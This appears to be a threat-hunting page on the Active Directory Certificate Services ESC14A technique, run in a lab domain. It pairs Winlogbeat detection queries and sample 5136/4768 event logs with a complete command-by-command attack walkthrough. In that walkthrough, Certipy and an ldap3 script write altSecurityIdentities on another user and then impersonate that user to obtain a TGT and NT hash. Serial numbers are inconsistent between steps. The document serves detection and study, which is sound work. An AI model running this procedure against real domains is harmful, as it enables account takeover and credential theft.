








# ESC14A


# Sources:

[https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)

# Hunts

## Winlogbeat

### Change of attribute altSecurityIdentities:

```jsx
winlog.event_id:(5136) 
AND winlog.event_data.AttributeLDAPDisplayName:(altSecurityIdentities) 
AND winlog.event_data.OperationType:("Value Added") 
AND winlog.event_data.AttributeValue:(*X509\:\<\I\>*) 
AND winlog.event_data.AttributeValue:(*\<SR\>*)

```

### Kerberos auth error  “’The 0x4B code corresponds to the KDC_ERR_CLIENT_NAME_MISMATCH error”:

```jsx
winlog.event_id:(4768)
AND winlog.event_data.CertSerialNumber:*
AND winlog.event_data.Status:("0x4B")
```

# Commands

## Short version

```jsx
source certipy-venv/bin/activate

#Create computer account
certipy account -u "missandei@essos.local" -p "fr3edom" -dc-ip '192.168.56.12'  -user ESC14A$ -pass 'Password@3' create

#Request  PFX container for previously created machine account
certipy req -username "ESC14A$" -password "Password@3" -dc-ip '192.168.56.12' -web -target "braavos.essos.local" -ca 'ESSOS-CA' -template 'Machine'

#Extract certificate from PFX
certipy cert -pfx esc14a.pfx  -nokey -out "esc14a.pfx.crt"

# Extract SN and Issuer from certificate
openssl x509 -in "esc14a.pfx.crt" -noout -text
#Got serial number 64:00:00:00:04:71:9f:38:f0:56:0d:00:f7:00:00:00:00:00:05
#and Issuer: DC=local, DC=essos, CN=ESSOS-CA

# Prepare string in X509IssuerSerialNumber format using py script 
python3 x509_issuer_serial_number_format.py -serial "64:00:00:00:05:2d:06:c5:64:36:75:74:6d:00:00:00:00:00:05" -issuer "CN=ESSOS-CA,DC=essos,DC=local"
#Output: X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>0500000000006d74753664c5062d0500000064

#Change altSecurityIdentities for user khal.drogo
python change_attribute.py

#Check that altSecurityIdentities for user khal.drogo was changed
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities

#Authentication with cert
certipy auth -pfx "esc14a.pfx" -domain "essos.local" -username "khal.drogo" -dc-ip 192.168.56.12

```

## 1. Create computer account

```jsx
certipy account -u "missandei@essos.local" -p "fr3edom" -dc-ip '192.168.56.12'  -user ESC14A$ -pass 'Password@3' create

import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : ESC14A$
    unicodePwd                          : Password@3
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/ESC14A
                                          RestrictedKrbHost/ESC14A
    dnsHostName                         : esc14a.essos.local
[*] Successfully created account 'ESC14A$' with password 'Password@3'

```

## 2. Request PFX container for previously created machine account

```jsx
certipy req -username "ESC14A$" -password "Password@3" -dc-ip '192.168.56.12' -web -target "braavos.essos.local" -ca 'ESSOS-CA' -template 'Machine'
 import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Checking for Web Enrollment on 'http://192.168.56.23:80'
[*] Requesting certificate via Web Enrollment
[*] Request ID is 3
[*] Retrieving certificate for request ID: 3
[*] Got certificate with DNS Host Name 'esc14a.essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'esc14a.pfx'

```

## 3. Extract certificate from PFX

```jsx
certipy cert -pfx esc14a.pfx  -nokey -out "esc14a.pfx.crt"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'esc14a.pfx.crt'

```

## 4. Extract SN and Issuer from certificate

```jsx
                                                                                                                                                                                                                                                                                                                                                                                                                                           
openssl x509 -in "esc14a.pfx.crt" -noout -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            64:00:00:00:05:2d:06:c5:64:36:75:74:6d:00:00:00:00:00:05
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=local, DC=essos, CN=ESSOS-CA
        Validity
            Not Before: Aug 14 20:27:50 2025 GMT
            Not After : Aug 14 20:27:50 2026 GMT
        Subject: CN=esc14a.essos.local
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (2048 bit)
                Modulus:
                    00:f0:d7:5c:83:eb:00:87:32:1d:35:bf:05:a3:aa:
                    dd:5e:3d:75:ef:57:0d:1f:97:a8:38:75:df:1f:02:
                    90:c1:cc:a6:3c:75:08:bc:0c:cc:a7:58:4e:69:42:
                    92:d9:b7:af:0c:20:a5:67:89:74:ac:0e:d9:69:16:
                    25:96:e3:87:c5:16:df:6c:93:67:ff:84:51:06:68:
                    11:4c:c9:ca:72:75:1e:f0:32:c4:03:c9:0c:5d:36:
                    9f:f8:39:c0:de:6d:bf:36:fb:74:4b:be:1a:c4:86:
                    54:5b:c1:e6:c1:e0:b9:02:1c:c6:50:5f:6d:6c:ca:
                    be:26:61:16:ad:3c:1f:a4:d3:11:a6:5c:b7:1b:83:
                    ec:ab:76:bf:63:d8:f9:ea:e6:10:a9:7b:f0:45:b6:
                    6e:bf:fa:94:34:7c:7a:dc:47:0e:97:09:a6:36:06:
                    58:95:4a:27:cb:0f:bb:67:c4:ca:40:d7:26:3a:bc:
                    8d:4b:22:c2:2d:28:ca:de:06:3c:ce:e7:b5:a3:38:
                    3e:f1:65:c1:87:48:7b:b3:21:ed:7f:dd:2e:93:c6:
                    86:16:7f:4d:e1:2e:8a:5b:e8:fc:b7:91:c6:a4:65:
                    88:c1:66:2f:4f:af:3a:9b:b5:6b:98:51:30:42:5c:
                    48:c5:24:4b:25:09:f7:3c:6c:8e:db:2f:ba:96:dd:
                    12:77
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Subject Key Identifier: 
                A8:36:11:B3:73:16:D9:3B:56:58:86:7F:4D:D5:4F:56:D5:64:86:8A
            X509v3 Authority Key Identifier: 
                97:8C:4C:A4:CF:05:C8:51:10:8A:DD:76:CC:AA:B9:90:13:A1:75:AC
            X509v3 CRL Distribution Points: 
                Full Name:
                  URI:ldap:///CN=ESSOS-CA,CN=braavos,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=essos,DC=local?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access: 
                CA Issuers - URI:ldap:///CN=ESSOS-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=essos,DC=local?cACertificate?base?objectClass=certificationAuthority
            1.3.6.1.4.1.311.20.2: 
                ...M.a.c.h.i.n.e
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            X509v3 Extended Key Usage: 
                TLS Web Client Authentication, TLS Web Server Authentication
            X509v3 Subject Alternative Name: 
                DNS:esc14a.essos.local
            Microsoft NTDS CA Extension: 
                0?.=.
+.....7..../.-**S-1-5-21-1330862731-2240521544-517571234-1123**
    Signature Algorithm: sha256WithRSAEncryption
    Signature Value:
        35:34:b5:25:b2:81:74:36:78:4b:60:2b:fe:24:15:aa:51:d3:
        8a:48:c1:d2:cb:dc:ce:63:79:69:ed:96:c7:22:ba:c7:01:b5:
        3f:57:31:f9:39:40:ba:bb:51:94:5c:0e:19:a6:7b:c9:7a:f3:
        e7:e3:15:c0:5b:47:b1:7f:00:17:78:e5:9b:43:c6:3a:54:59:
        f3:5d:b9:02:a5:fa:6d:bf:34:8d:36:a8:d5:3e:31:09:4d:34:
        fc:cf:e0:3f:3a:9a:9f:5b:a0:8e:79:cf:d9:77:5d:78:04:af:
        8a:25:71:e7:9b:68:20:a8:ec:8b:10:ef:e5:0c:31:b7:26:3d:
        6f:96:34:07:68:85:f9:1b:41:c1:f3:63:60:21:16:c3:ea:8c:
        d9:07:eb:f7:b5:86:20:74:3b:d1:5d:c5:74:46:51:7b:17:4b:
        95:03:98:1c:7c:1d:b7:43:1b:ae:8c:04:83:fe:7f:0b:a0:bc:
        fe:2e:8e:d1:e6:ab:3e:03:64:9d:0c:a2:f7:9d:64:49:bc:67:
        7f:59:c5:e9:58:cf:91:2f:11:e2:76:cc:97:a8:7e:30:ef:cb:
        90:35:e8:ef:94:f4:dc:01:a5:38:37:56:10:4e:b3:49:ff:7a:
        c0:1d:5f:c6:84:37:22:6b:71:bc:e9:6d:7f:63:ab:ee:9c:b0:
        97:65:10:a2
                                                                             

```

Got serial number 64:00:00:00:04:71:9f:38:f0:56:0d:00:f7:00:00:00:00:00:05

and Issuer: DC=local, DC=essos, CN=ESSOS-CA

## 5. Prepare string in X509IssuerSerialNumber format using py script

```python
 import argparse

def get_x509_issuer_serial_number_format(serial_number: str, issuer_distinguished_name: str) -> str:
    """
    Formats the X509IssuerSerialNumber for the altSecurityIdentities attribute.
    :param serial_number: Serial number in the format "43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11"
    :param issuer_distinguished_name: Issuer distinguished name, e.g., "CN=CONTOSO-DC-CA,DC=contoso,DC=com"
    :return: Formatted X509IssuerSerialNumber
    """
    serial_bytes = serial_number.split(":")
    reversed_serial_number = "".join(reversed(serial_bytes))
    issuer_components = issuer_distinguished_name.split(",")
    reversed_issuer_components = ",".join(reversed(issuer_components))
    return f"X509:<I>{reversed_issuer_components}<SR>{reversed_serial_number}"

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Format X509 Issuer Serial Number")
    parser.add_argument("-serial", required=True, help="Serial number in format 43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11")
    parser.add_argument("-issuer", required=True, help="Issuer Distinguished Name e.g., CN=CONTOSO-DC-CA,DC=contoso,DC=com")

    args = parser.parse_args()
    formatted_value = get_x509_issuer_serial_number_format(args.serial, args.issuer)
    print(formatted_value)
```

```jsx
python3 x509_issuer_serial_number_format.py -serial "64:00:00:00:05:2d:06:c5:64:36:75:74:6d:00:00:00:00:00:05" -issuer "CN=ESSOS-CA,DC=essos,DC=local"
X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>0500000000006d74753664c5062d0500000064

```

## 6. Change altSecurityIdentities for user khal.drogo

```python
import ldap3
dn = "CN=khal.drogo,CN=Users,DC=essos,DC=local"
user = "essos.local\\missandei"
password = "fr3edom"
server = ldap3.Server('192.168.56.12')
ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
ldap_con.bind()
ldap_con.modify(dn,{'altSecurityIdentities' : [(ldap3.MODIFY_REPLACE, 'X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>050000000000f7000d56f0389f710400000064')]})
print(ldap_con.result)
ldap_con.unbind()

```

```jsx
python change_attribute.py
{'result': 0, 'description': 'success', 'dn': '', 'message': '', 'referrals': None, 'type': 'modifyResponse'}
```

## 7. Check that altSecurityIdentities for user khal.drogo was changed

```jsx
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities
[{
  "altSecurityIdentities": [
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>050000000000f7000d56f0389f710400000064"
  ],
  "dn": "CN=khal.drogo,CN=Users,DC=essos,DC=local"
}]

```

## 8. Authentication with cert

```jsx
certipy auth -pfx "esc14a.pfx" -domain "essos.local" -username "khal.drogo" -dc-ip 192.168.56.12
 The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] The provided username does not match the identification found in the provided certificate: 'KHAL.DROGO' - 'esc14a$'
Do you want to continue? (Y/n) y
[*] Using principal: khal.drogo@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'khal.drogo.ccache'
[*] Trying to retrieve NT hash for 'khal.drogo'
[*] Got hash for 'khal.drogo@essos.local': aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021

```

# Artifacts

## 5136. Change altSecurityIdentities attribute



```jsx
A directory service object was modified.
	
Subject:
	Security ID:		ESSOS\missandei
	Account Name:		missandei
	Account Domain:		ESSOS
	Logon ID:		0x5F3AFD

Directory Service:
	Name:	essos.local
	Type:	Active Directory Domain Services
	
Object:
	DN:	CN=khal.drogo,CN=Users,DC=essos,DC=local
	GUID:	CN=khal.drogo,CN=Users,DC=essos,DC=local
	Class:	user
	
Attribute:
	LDAP Display Name:	altSecurityIdentities
	Syntax (OID):	2.5.5.12
	Value:	X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>0500000000006d74753664c5062d050000006411
	
Operation:
	Type:	Value Deleted
	Correlation ID:	{8dc93365-5729-459b-8630-c310ccd0a9f2}
	Application Correlation ID:	-
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>5136</EventID> 
  <Version>0</Version> 
  <Level>0</Level> 
  <Task>14081</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T18:09:12.518126600Z" /> 
  <EventRecordID>69089</EventRecordID> 
  <Correlation ActivityID="{95517313-0D3F-0001-8F73-51953F0DDC01}" /> 
  <Execution ProcessID="672" ThreadID="3268" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="OpCorrelationID">{A2FAB726-EDC3-46DE-A3B8-1ACE915957F3}</Data> 
  <Data Name="AppCorrelationID">-</Data> 
  <Data Name="SubjectUserSid">S-1-5-21-1330862731-2240521544-517571234-1117</Data> 
  <Data Name="SubjectUserName">missandei</Data> 
  <Data Name="SubjectDomainName">ESSOS</Data> 
  <Data Name="SubjectLogonId">0x1b426c</Data> 
  <Data Name="DSName">essos.local</Data> 
  <Data Name="DSType">%%14676</Data> 
  <Data Name="ObjectDN">CN=khal.drogo,CN=Users,DC=essos,DC=local</Data> 
  <Data Name="ObjectGUID">{F4B7A74C-D25B-49DF-8499-F1757491C47E}</Data> 
  <Data Name="ObjectClass">user</Data> 
  <Data Name="AttributeLDAPDisplayName">altSecurityIdentities</Data> 
  <Data Name="AttributeSyntaxOID">2.5.5.12</Data> 
  <Data Name="AttributeValue">X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>040000000000f7000d56f0389f710400000064</Data> 
  <Data Name="OperationType">%%14674</Data> 
  </EventData>
  </Event>
  
```

## **4768. TGT Request**



```jsx
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		khal.drogo
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			ESSOS\khal.drogo

Service Information:
	Service Name:		krbtgt
	Service ID:		ESSOS\krbtgt

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		34678

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Pre-Authentication Type:	16

Certificate Information:
	Certificate Issuer Name:		ESSOS-CA
	Certificate Serial Number:	6400000004719F38F0560D00F7000000000004
	Certificate Thumbprint:		CE7BADF32D0FE8F67324C7038234DAC7DD450281

Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

```jsx
- - <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>0</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T18:33:15.466210500Z" /> 
  <EventRecordID>69444</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="672" ThreadID="2820" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">khal.drogo</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-5-21-1330862731-2240521544-517571234-1115</Data> 
  <Data Name="ServiceName">krbtgt</Data> 
  <Data Name="ServiceSid">S-1-5-21-1330862731-2240521544-517571234-502</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x0</Data> 
  <Data Name="TicketEncryptionType">0x12</Data> 
  <Data Name="PreAuthType">16</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.200</Data> 
  <Data Name="IpPort">34678</Data> 
  <Data Name="CertIssuerName">ESSOS-CA</Data> 
  <Data Name="CertSerialNumber">6400000004719F38F0560D00F7000000000004</Data> 
  <Data Name="CertThumbprint">CE7BADF32D0FE8F67324C7038234DAC7DD450281</Data> 
  </EventData>
  </Event>
```

## **4768. TGT Request** on updated Windows with Advertized Etypes



```jsx
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		khal.drogo
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			ESSOS\khal.drogo
	MSDS-SupportedEncryptionTypes:	0x27 (DES, RC4, AES-Sk)
	Available Keys:	AES-SHA1, RC4

Service Information:
	Service Name:		krbtgt
	Service ID:		ESSOS\krbtgt
	MSDS-SupportedEncryptionTypes:	0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
	Available Keys:	AES-SHA1, RC4

Domain Controller Information:
	MSDS-SupportedEncryptionTypes:	0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
	Available Keys:	AES-SHA1, RC4

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		41370
